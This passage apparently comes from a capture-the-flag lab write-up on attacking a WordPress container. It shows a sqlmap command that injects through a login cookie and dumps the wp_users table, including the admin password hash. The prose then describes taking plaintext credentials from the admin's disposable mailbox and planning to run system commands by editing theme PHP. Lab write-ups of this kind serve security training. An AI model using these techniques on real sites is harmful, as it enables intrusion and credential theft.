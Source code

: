 ```
| wp_usermeta           |
| wp_users              |
+-----------------------+

❯ sqlmap --dbms=mysql -u "http://172.17.0.2/wp-login.php" --cookie='wordpress_logged_in=*' -D wordpress -T wp_users -dump --batch  --level=2

Database: wordpress
Table: wp_users
[1 entry]
+----+-------------------+------------------------------------+------------------------+------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+
| ID | user_url          | user_pass                          | user_email             | user_login | user_status | display_name | user_nicename | user_registered     | user_activation_key                           |
+----+-------------------+------------------------------------+------------------------+------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+
| 1  | http://172.17.0.2 | $P$BlCPtU.MZfjzs.1XeV6idsQWD.j0AL. | dockerlabs@yopmail.com | admin      | 0           | admin        | admin         | 2024-06-07 23:48:21 | 1717858554:$P$B.OWB2QOje2dpgrz0GKCjVxQuwsA9d/ |
+----+-------------------+------------------------------------+------------------------+------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+

```

Thanks to the WordPress plugin vulnerability, we were able to obtain credentials for the WordPress administrator. However, the issue arises with the password, as it is encrypted and cannot be decrypted to plaintext.

But there's more to discover—the user's email address uses the domain "yopmail.com," which correlates with the message we noticed earlier during enumeration. By trying the admin user's email on the yopmail service, we were able to access their inbox.

![[attachment/78af99c07651395482eeeb8f5328cb98.png]]

Within the inbox, we found plaintext credentials for the WordPress administrator, granting us access to the WordPress admin panel.

![[attachment/80145f930ddb94600ec36100cea3c98a.png]]

As administrators, we can currently edit the PHP source code of an inactive theme to execute system commands. The issue lies in the disabled theme editor.

![[attachment/ae3ba9e1df7c976cb684b51ea90e64bd.png]]

looking the plugins installed in wordpress, we discovered an interesting one "**Disable Everything**, *This plugin is used to disable all unused options that are slowing down your site. Doing so will improve your website performance.*"

![[attachment/de7f13a7f282ec7292ac01d737097664.png]]
